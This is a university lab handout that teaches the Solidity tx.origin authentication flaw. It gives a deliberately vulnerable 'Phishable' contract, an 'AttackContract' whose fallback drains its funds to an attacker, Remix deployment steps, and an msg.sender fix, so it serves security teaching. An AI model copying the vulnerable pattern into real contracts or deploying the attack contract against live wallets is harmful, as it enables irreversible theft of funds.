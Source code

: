 # Module 9 - Intermediate Lab: Gone Phishing

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming.

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics  | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Intermediate. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines which are impractical to present a breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many vulnerabilities which could be the focus instead. |

## Assignment Instructions
1. In Solidity, there is a global variable called `tx.origin`, which contains the address of the account that originally sent the call or the transaction. In this lab, we will explore why using `tx.origin` as a form of authentication can lead to exploitation.
2. First, we begin by creating a contract with a simple purpose such as temporarily holding Ether for the owner (just as legitimate contracts in use hold Ether to enable various functions). Copy the following code into [Remix]:
    [_Phishable.sol_][Phishable.sol]
    ```solidity
    contract Phishable {
        address public owner;
        constructor (address _owner) {
            owner = _owner;
        }

        function () public payable {} // collect ether

        function withdrawAll(address _recipient) public {
            require(tx.origin == owner);
            _recipient.transfer(this.balance);
        }
    }
    ```
3. We then create another contract to attack `Phishable.sol`. In a new document, create `AttackContract.sol`:
    [_AttackContract.sol_][AttackContract.sol]
    ```solidity
    import "browser/Phishable.sol";

    contract AttackContract {
        Phishable phishableContract;

        address attacker; // The attacker's address to receive funds

        constructor (Phishable _phishableContract, address _attackerAddress) {
            phishableContract = _phishableContract;
            attacker = _attackerAddress;
        }

        function () payable {
            phishableContract.withdrawAll(attacker);
        }
    }
    ```
4. In `AttackContract`, we see that whenever this contract is paid an amount, it then calls the `Phishable` contract’s `withdrawAll` function providing the address to send funds to. The `Phishable` contract authorizes this transaction, because its owner is the originator of the transaction (from paying the attacker’s contract). Why would the owner pay the attacker’s contract? Perhaps the attacker provided the contract’s address as their payment address in a private transaction with the owner of `Phishable`. This is an example of a spearphishing attack, where the attacker would have identified that `Phishable` is phishable and then organized a plan of attack to have the owner of the `Phishable` be involved in a transaction that would allow this attack to occur.
5. Let's see this attack in action. You should have already created both files in Remix by now. While active in the `browser/Phishable.sol` tab, click on "Compile" on the top right hand side of the screen and click on "Select new compiler version."
    * The version of the compiler should be
    ```
    version:0.4.23+commit.124ca40d.
    ```
    You might see a few warnings, but that's okay; the compiler should still compile the code properly.

6. Next, we will deploy the `Phishable` contract. We can do this by clicking on the "Run" tab next to the "Compile" tab on the top right side of the screen. Make sure the run tab has the following settings:
    * Environment: Javascript VM
    * Account: (this varies, just make sure it's consistent with the deployment address)
    * Gas limit: 3000000
    * Value: 10 Ether
    * Deploy: (same as account address)
    ![Deploying Phishable.sol](deploy1.PNG)

    * In the Remix logs, you should see something like this:

    ![Successful deployment](successful_deployment1.PNG)
    * On the right hand side of the screen there should be an area that looks like this:

    ![Contract in memory](memory1.PNG)

7. Now that the `Phishable.sol` contract is loaded onto memory, we need to deploy the attacker's `AttackContract.sol` as well to see the vulnerability in action. Click on the `browser/AttackContract.sol` to make it active then click on "Compile." The compiler version should be the same as earlier, but in case it isn't, use the same one:
    * The version of the compiler should be
    ```
    version:0.4.23+commit.124ca40d.
    ```

    Click on "Start to compile." Again, you should see some warnings, but the code should compile successfully. Now, assume you are the owner of Phishable, but you see this coming before you deploy; how would you fix it?

8. We can prevent an attack like this (using tx.origin for authentication purposes) by checking that the sender is the owner instead. In the `Phishable.sol` contract, change the line `require(tx.origin == owner);` to `require(msg.sender == owner);`. Now, when `AttackContract` is paid an amount by the owner of `UnPhishable` and calls `UnPhishable`’s `withdrawAll` function, the funds will not be transferred to the attacker’s address, since they are not the owner. We'll call this updated version `UnPhishable`. The code should look like this:
    [_UnPhishable.sol_][UnPhishable.sol]
    ```solidity
    contract UnPhishable {
        address public owner;
        constructor (address _owner) {
            owner = _owner;
        }

        function () public payable {} // collect ether

        function withdrawAll(address _recipient) public {
            require(msg.sender == owner);
            _recipient.transfer(this.balance);
        }
    }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[Phishable.sol]: https://github.com/UHMC/module-9-lab-intermediate/blob/master/Phishable.sol
[AttackContract.sol]: https://github.com/UHMC/module-9-lab-intermediate/blob/master/AttackContract.sol
[UnPhishable.sol]: https://github.com/UHMC/module-9-lab-intermediate/blob/master/UnPhishable.sol
